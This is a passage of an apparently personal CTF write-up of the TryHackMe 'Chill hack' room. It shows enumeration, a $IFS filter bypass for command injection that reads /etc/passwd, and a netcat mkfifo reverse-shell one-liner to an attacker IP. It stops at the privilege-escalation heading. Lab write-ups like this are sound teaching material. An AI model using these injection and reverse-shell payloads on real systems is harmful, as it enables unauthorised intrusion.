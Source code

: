 ### Chill hack
### Difficulty = easy
### Os = linux
### [LINK](https://tryhackme.com/room/chillhack)

Hi guys ,
<br> let's root another fun box today.
<br> let's get start

<h2>Nmap scan</h2>
![nmap](https://github.com/0xVenus/0xVenus.github.io/assets/97831939/a3a34c1a-56e5-4c8b-b7ac-b05149c8fa2b)
As you can see we have 3 open ports which port 21(FTP) Allows anonymous login.
<br> so let's start enumerate the port further by connecting to the ftp server using "anonymous" as username and hitting enter to get logged in. Then download the file on the server to your local machine
![anonymousftp](https://github.com/0xVenus/0xVenus.github.io/assets/97831939/49303fe2-cdba-459b-b3d2-4a7476fb7ecc)
so, let's check the content of the downloaded file
![anonymousftp](https://github.com/0xVenus/0xVenus.github.io/assets/97831939/2f01e9bb-7d69-4cda-b027-165a57e53c52)
the file contains hint to the box.
<br> let's proceed further by fuzzing for directories using ffuf
~~~
ffuf -w /usr/share/wordlists/dirb/common.txt -u http://10.10.85.120/FUZZ
~~~
![fuzz](https://github.com/0xVenus/0xVenus.github.io/assets/97831939/e6bce9a6-9f52-4e85-975a-9f959b1a6b73)
got the directory */secret*
<br> visiting the directory we can tell that the box is about command injection
![http_command_inj_page](https://github.com/0xVenus/0xVenus.github.io/assets/97831939/e6568236-8929-4d80-ae25-fff0fd4ab7ec)
so, you can confirm it by executing the **id** command
proceeding further we noticed that our commands ain't working due to some kinda filters
![filter](https://github.com/0xVenus/0xVenus.github.io/assets/97831939/01e4e271-345e-4135-b128-838ec0d753d5)
i found out that spaces get filtered and thereby triggering the alert
so, let's bypass the filter using the "internal field separator" $IFS
```
cat$IFS/etc/passwd should work
```
![filer_bypass](https://github.com/0xVenus/0xVenus.github.io/assets/97831939/8ab2e700-3c52-440b-9e9a-aa732477c14c)
dope! it has been bypassed. which means we have to replace spaces with $IFS 

<br> let's pop our sweet reverse shell by starting netcat listener and executing this commands
```
rm$IFS/tmp/f;mkfifo$IFS/tmp/f;cat$IFS/tmp/f|/bin/sh -i 2>&1|nc 10.9.3.145 1337 >/tmp/f
```
![rev-shell](https://github.com/0xVenus/0xVenus.github.io/assets/97831939/760a62df-4925-44ae-b577-07654cb8fa56)
cool we have a shell xD
so, stabilize the shell.

<h2>Privilege escalation</h2>


